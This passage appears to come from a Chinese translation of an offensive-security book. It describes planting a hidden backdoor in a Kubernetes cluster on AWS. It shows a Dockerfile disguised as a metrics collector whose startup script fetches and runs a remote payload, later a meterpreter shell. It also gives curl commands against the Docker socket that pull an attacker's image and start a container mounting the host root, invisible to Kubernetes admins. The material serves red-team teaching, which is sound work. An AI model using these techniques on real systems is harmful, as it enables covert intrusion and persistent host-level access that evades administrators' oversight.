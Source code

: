 ```
          restartPolicy: Never
```

Listing 9-6: 我们的隐秘后门的定时任务

这个 cron 任务从我们控制的另一个 AWS 账户加载 `amazon-metrics-collector` 镜像。这个 Docker 镜像结构更为复杂，甚至可能被误认为是合法的度量任务（见 Listing 9-7）。

```
# Dockerfile

FROM debian: buster-slim

RUN apt update && apt install -y git make
RUN apt install -y prometheus-varnish-exporter
COPY init.sh /var/run/init.sh

ENTRYPOINT ["/var/run/init.sh"]
```

Listing 9-7: 一个 Dockerfile，安装多个软件包并在启动时执行脚本

在那些无用软件包和数十行虚假代码的表面下，我们在 *init.sh* 文件中深藏了一个指令，该指令会下载并执行托管在 S3 上的自定义脚本。最初，这个远程脚本将是一个无害的 `echo` 命令。当我们想要激活这个后门以重新获得系统访问时，我们将用我们自定义的 meterpreter 覆盖 S3 上的文件。它是一种潜伏的 shell，只有在紧急情况下才会使用。

然而，这种设置并不能完全解决原始问题的可见性问题。一旦我们激活了 shell，我们将在系统上有一个持续运行的 pod，Kube 管理员都能看到。

一项优化是避免直接在外部容器的 metrics-collector pod 上执行我们自定义的 stager。相反，我们将使用这个 pod 来联系我们方便挂载的 Docker 套接字，并指示它在主机上启动另一个容器，该容器最终会加载 meterpreter 代理。metrics-collector pod 在完成其工作后可以优雅地终止，而我们的 shell 将继续在其自己的第二个容器中不受干扰地运行。

这个第二个容器对于 Kubernetes 完全是不可见的，因为它没有像 ReplicaSet 或 DaemonSet 这样的现有对象作为附加项，而是由 Docker 在节点上顽固地创建的。这个容器将悄悄地以特权模式继续运行，几乎没有任何监督。列表 9-8 给出了通过 Docker API 拉取、创建和启动这样一个容器的三个 `curl` 命令。这个脚本应该由我们之前定义的 amazon-metrics-collector 容器加载并执行。

```
# Pull the image from the ECR registry
curl \
  --silent \
  --unix-socket /var/run/docker.sock \
  "http://docker/images/create?fromImage=881445392307.dkr.ecr.eu-west\
  -1.amazonaws.com/pause-amd64" \
  -X POST

# Create the container from the image and mount the / directory
curl \
  --silent \
  --unix-socket /var/run/docker.sock \
  "http://docker/containers/create?name=pause-go-amd64-4413" \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{ "Image": "881445392307.dkr.ecr.eu-west-1.amazonaws.com/pause-amd64",\
  "Volumes": {"/hostos/": {}},"HostConfig": {"Binds": ["/:/hostos"]}}'

# Start the container
curl \
  --silent \
  --unix-socket /var/run/docker.sock \
  "http://docker/containers/pause-go-amd64-4413/start" \
  -X POST \
  -H "Content-Type: application/json" \
  --output /dev/null \
  --write-out "%{http_code}"
```
